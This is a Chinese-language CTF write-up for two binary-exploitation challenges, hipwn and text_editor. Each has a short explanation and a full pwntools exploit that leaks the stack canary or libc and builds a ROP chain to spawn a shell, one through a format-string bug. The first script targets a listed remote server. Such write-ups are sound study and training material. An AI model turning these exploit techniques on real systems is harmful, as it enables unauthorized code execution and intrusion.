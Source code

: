 # ASISCTF_pwnWP

### pwn|hipwn

版本是ubuntu22，这个版本下将pop rdi等传统ROP里会用到的gadget全给移除了。不过这个题我们还是可以先泄露出canary，然后泄露出libc。等泄露出libc的时候我们就可以使用libc里的gadget和system函数来拿到shell了。

exp:

```python
from pwn import *
import sys
remote_addr = ["45.153.243.57",1337]
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./chall')
if len(sys.argv) == 1:
    context.log_level="debug" 
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g","1234","./stack"]) 
    #p = process(["qemu-aarch64", "-L", ".", "./stack"]) 
    p = process("./chall")
    context(arch='amd64', os='linux')
    context.terminal = ['tmux', 'splitw', '-h']
if len(sys.argv) == 2 :
    if 'r' in sys.argv[1]:
        p = remote(remote_addr[0],remote_addr[1])
    if 'n' not in sys.argv[1]:
        context.log_level="debug" 
        #context(arch = 'amd64', os = 'linux')
r = lambda : p.recv()
rl = lambda : p.recvline()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

DEBUG = 0

def debug(bp = None):
    if DEBUG == 1:
        if bp != None:
            gdb.attach(p, bp)
        else:
            gdb.attach(p)

debug('''
    b *$rebase(0x1256)
''')

sla(b'How much???\n', str(0x100).encode())
payload = b'a' * (0x48) + b'b'
sa(b'content\n', payload)

ru(b'\x62')
canary = u64(rc(7).ljust(8, b'\x00')) << 8
pr('canary', canary)

sla(b'again?', str(1337).encode())

sla(b'How much???\n', str(0x100).encode())
payload = b'a' * (0x48) + p64(canary + 1) + b'a' * 8 + b'b'
sa(b'content\n', payload)
libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x29d62
pr('libc.address', libc.address)
pop_rdi = libc.address + 0x2a3e5
system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh\x00'))
ret = libc.address + 0x29cd6

sla(b'again?', str(1337).encode())

sla(b'How much???\n', str(0x100).encode())
payload = b'a' * (0x48) + p64(canary) + b'a' * 8 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
sa(b'content\n', payload)

sla(b'again?', str(0).encode())

shell()

```

### pwn| text_editor

程序有几个功能：

![image-20230926140525302](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1695708349.png)

其中edit_text接受用户输入放入bss段上的text变量，位于程序基地址+0x4020处。而save_text将bss上text变量的内容复制到栈上。show_error则是打印了程序基地址+0x4120处的内容，且存在格式化字符串漏洞。

![image-20230926140912348](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1695708579.png)

![image-20230926140923647](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1695708578.png)

![image-20230926140935028](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1695708576.png)

可见对text编辑我们可以操控4120处的内容。于是我们可以先改低地址来泄露libc基地址，这里有1/16概率。

然后我们泄露基地址之后就可以使用格式化字符串漏洞对ret_addr进行编辑，这里采用了写rop的方式。

exp：

```python
from pwn import *
import sys
remote_addr = ["",]
libc = ELF('./libc.so.6')
#elf = ELF('')
if len(sys.argv) == 1:
    context.log_level="debug" 
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g","1234","./stack"]) 
    #p = process(["qemu-aarch64", "-L", ".", "./stack"]) 
    p = process("./chall")
    context(arch='amd64', os='linux')
    context.terminal = ['tmux', 'splitw', '-h']
if len(sys.argv) == 2 :
    if 'r' in sys.argv[1]:
        p = remote(remote_addr[0],remote_addr[1])
    if 'n' not in sys.argv[1]:
        context.log_level="debug" 
        #context(arch = 'amd64', os = 'linux')
r = lambda : p.recv()
rl = lambda : p.recvline()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

DEBUG = 0

def debug(bp = None):
    if DEBUG == 1:
        if bp != None:
            gdb.attach(p, bp)
        else:
            gdb.attach(p)

debug('''
    b *$rebase(0x1346)
''')

def edit(content):
    sla(b'> ', b'1')
    sa(b'text: ', content)

def save():
    sla(b'> ', b'2')

def exit():
    sla(b'> ', b'3')

def pf():
    sla(b'> ', b'4')


payload = b'\x00' * 0x100 + b'\x40\x31'
edit(payload)
save()
pf()

sleep(1) #1/16 

libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x21a780
pr('libc.address', libc.address)

pop_rdi = libc.address + 0x2a3e5
pop_rbp = libc.address + 0x35732
ret = libc.address + 0xf8098

system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh\x00'))
environ = libc.sym['__environ']

payload = b'\x00' * 0x100 + p64(environ)
edit(payload)
save()
pf()

sleep(1)

stack_addr = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))
pr('stack_addr', stack_addr)

begin_addr = stack_addr - 0x238
ret_addr = begin_addr + 0x118

payload = fmtstr_payload(10, {ret_addr + 0x8:p64(pop_rdi)}, write_size='short')
payload = payload.ljust(0x100, b'\x00') + p64(begin_addr)
edit(payload)
save()
pf()

sleep(1)

payload = fmtstr_payload(10, {ret_addr + 0x10:p64(binsh)}, write_size='short')
payload = payload.ljust(0x100, b'\x00') + p64(begin_addr)
edit(payload)
save()
pf()

sleep(1)

payload = fmtstr_payload(10, {ret_addr + 0x18:p64(system)}, write_size='short')
payload = payload.ljust(0x100, b'\x00') + p64(begin_addr)
edit(payload)
save()
pf()

sleep(1)

payload = fmtstr_payload(10, {ret_addr:p64(ret)}, write_size='short')
payload = payload.ljust(0x100, b'\x00') + p64(begin_addr)
edit(payload)
save()
pf()

exit()

shell()
```

